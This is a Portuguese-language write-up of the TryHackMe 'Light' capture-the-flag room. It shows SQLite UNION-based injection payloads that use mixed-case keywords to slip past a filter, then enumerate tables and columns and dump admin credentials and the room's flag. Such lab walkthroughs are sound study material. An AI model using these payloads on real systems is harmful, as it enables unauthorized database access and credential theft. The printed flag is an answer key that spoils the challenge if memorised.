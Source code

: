 # Room - Light - TryHackMe 

Level: Easy

![image](https://github.com/user-attachments/assets/f22b9991-a50b-4283-9875-63043ec6dc2f)


Ao conectar no servidor, somos recebidos com um campo para inserir um username. Usando o username que o desafio fornece no enunciado, o servidor nos retorna senha desse usuário.

![image](https://github.com/user-attachments/assets/e3b8289d-fc2e-4437-8fd7-90fbf1a81bd2)


A primeira ideia foi tentar conectar via SSH com essas credenciais, mas não foi possível.

![image](https://github.com/user-attachments/assets/227af177-d11b-4a4d-9c71-8390642ef480)

Como o enunciado sugere que é um sistema de banco de dados, a segunda aproximação envolveu verificar se o sistema é vulnerável a ataques de SQL Injection.

Utilizando alguns dos payloads encontrados no [repositório do payloadbox](https://github.com/payloadbox/sql-injection-payload-list), e baseado nas mensagens de erro, foi possível identificar que o engine usado no banco de dados era o SQLite

Testando o payload `' UNION SELECT 1+1'` foi exibida uma mensagem indicando que existem filtros para algumas expressões e caracteres.

Felizmente as expressões do SQLite não são case-sensitive, então ao tentar alternar os caracteres entre maiúsculos e minúsculos, conseguimos bypassar o filtro e executar as operações normalmente.

`' UnIoN SeLeCt 1+1 '`

retornou o resultado: 2, indicando que o código estava sendo de fato executado pelo banco de dados.

![image](https://github.com/user-attachments/assets/67bc00e4-32bb-415c-8ba9-029551c7bca5)

A partir daí, o foco é em enumerar as informações das tabelas. Para isso, vamos prosseguir com o método de ataque utilizando as expressões `UNION` [SQL INJECTION UNION ATTACKS - PORTSWIGGER](https://portswigger.net/web-security/sql-injection/union-attacks)

Conforme a [documentação](https://www.sqlite.org/schematab.html) do SQLite, em todos os bancos de dados que utilizam essa engine, vai existir uma tabela que contém algumas 
informações sobre todas as outras tabelas.

CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);`

Podendo receber esses nomes alternativos: 
    sqlite_master
    sqlite_temp_schema
    sqlite_temp_master 


Seguindo nosso procedimento para conseguir as informações, podemos utilizar o payload
`' UNiON SeLect name FROM sqlite_master '`

![image](https://github.com/user-attachments/assets/9c8fe118-20d6-4ed5-8098-9e788bfa805e)

Descobrimos a tabela admintable

Agora podemos fazer o mesmo processo dentro dessa tabela.
Para descobrir o nome das colunas, podemos realizar a consulta à estrutura pragma_table, conforme exemplificado nesse [post do fórum do SQLite](https://sqlite.org/forum/info/9add3c3898aed7c4)

`' UnIoN SeLect name from pragma_table_info('admintable') '`
Primeira coluna: id

`' UnIoN SeLect name from pragma_table_info('admintable') where name != 'id`
Segunda coluna: password

`' UnIon SeLect name from pragma_table_info('admintable') where name != 'id' and name != 'password`
Terceira coluna: username

![image](https://github.com/user-attachments/assets/9fa1dbb6-63de-4cde-b674-569dbb22317e)

# Verificando os usernames
`' UnIon SeLect username from admintable ' `
user : *TryHackMeAdmin*

`' UnIoN SeLeCt password from admintable where username = 'TryHackMeAdmin`
senha : *mamZtAuMlrsEy5bp6q17*

![image](https://github.com/user-attachments/assets/5a91292a-f4e1-4713-94af-d967347c56c2)

Vamos tentar realizar o acesso via SSH com essas credenciais, mas novamente, não foi possível.

![image](https://github.com/user-attachments/assets/285923c5-f07a-46aa-bc91-a6c8b9176c98)

Realizando uma nova consulta ao banco de usuários <br>
`' UnIon SeLect username from admintable where username != 'TryHackMeAdmin`

Olha ela aí!, encontramos o usuário *flag* agora vamos ver se a flag está na senha <br>
`' UnIoN SeLeCt password from admintable where username = 'flag`

![image](https://github.com/user-attachments/assets/cabcb408-fc4e-4a13-9cfa-4622a0c4a644)

E Foi!
Encontramos a flag
THM{SQLit3_InJ3cTion_is_SimplE_nO?}

